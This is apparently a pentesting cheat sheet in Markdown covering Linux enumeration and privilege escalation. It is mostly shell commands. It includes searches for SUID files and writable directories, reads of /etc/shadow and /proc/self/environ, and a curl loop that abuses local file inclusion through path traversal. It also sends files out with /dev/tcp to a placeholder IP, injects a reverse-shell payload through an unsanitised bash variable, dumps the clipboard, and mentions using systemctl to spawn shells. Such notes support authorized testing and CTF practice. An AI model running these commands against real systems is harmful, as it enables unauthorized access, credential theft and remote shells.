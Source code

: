 # Enumeration
## Commands
```bash
# SUDO CONFIG
sudo -l

# CURRENT USER INFO
id || (whoami && groups) 2>/dev/null
## Current user PGP keys
gpg --list-keys 2>/dev/null


# ALL USERS
## List superusers
awk -F: '($3 == "0") {print}' /etc/passwd

## List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort

## Logged in users
w


# SYSTEM INFO
## Running processes
ps aux

## Environment variables
(env || set) 2>/dev/null

## Network topology
cat /proc/net/fib_trie

## Domain name
hostname

## OS info
/etc/os-release


# FILES AND DIRECTORIES
## Sort files by date
ls -ltrh

## Writeable folders
find / -writable -type d 2>/dev/null

## Find SUID files
find / -perm -4000 2>/dev/null


# NETWORK
## List open ports
(netstat -punta || ss --ntpu)


# MISC
## Human readable JSON data (jq)
cat <json_file> | jq

## Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

## PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

## Directories / Files
```bash
~/
/tmp

/dev/shm

/opt

/var
/var/log
/var/www/html

/usr/sbin

/etc/apache2 
/etc/httpd
/etc/nginx

/etc/hosts
/etc/issue
/etc/motd
/etc/passwd 
/etc/group 
/etc/resolv.conf
/etc/shadow

/home/USERNAME/.bash_history
/home/USERNAME/.profile

/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/cmdline
```

## Process File (PID) Brute-force
The file “/proc//cmdline” serves as a repository for the command-line arguments that have been provided to a specific process identified by its (PID). 
This allows for enumerating all the running processes based on their PID.     
This could be well used for exploiting an LFI.

```bash
# Example script to exploit LFI
for i in {0..999}; do
    pid=$i
    url="http://remote.com/?page=../../../..//proc/$pid/cmdline"
    curl -s "$url" | tee -a log.txt
    echo ""
done
```

## Directory / File Copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Clipboard
Look for anything interesting in the clipboard
```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

# Interesting Groups
## disk
A user who is in the disk group, will probably have access to info on a given disk.

### debugfs
`debugfs` let's you debug a file system if you can read the device.       
With this, one can read files owned by a given user


# Bash File Command Execution
If a file executes a variable, one might be able to write payload to it.
## Example
**(program.sh)**
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
The attacker can supply the following payload:
```
./program.sh '>& /dev/tcp/<IP>/<PORT> 0>&1'
```

# Services
[gtfobins help](https://gtfobins.github.io/gtfobins/systemctl/)

A service is defined by a `.service` file. `systemctl` is used to link it to `systemd` and then used again to start the service.      
What the service does is defined by the `.service` file.     

If a user has access to the `systemctl` binary they can make a service which can read file or even spawn a reverse shell.


# Raw Image File Conversion to Actual Image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png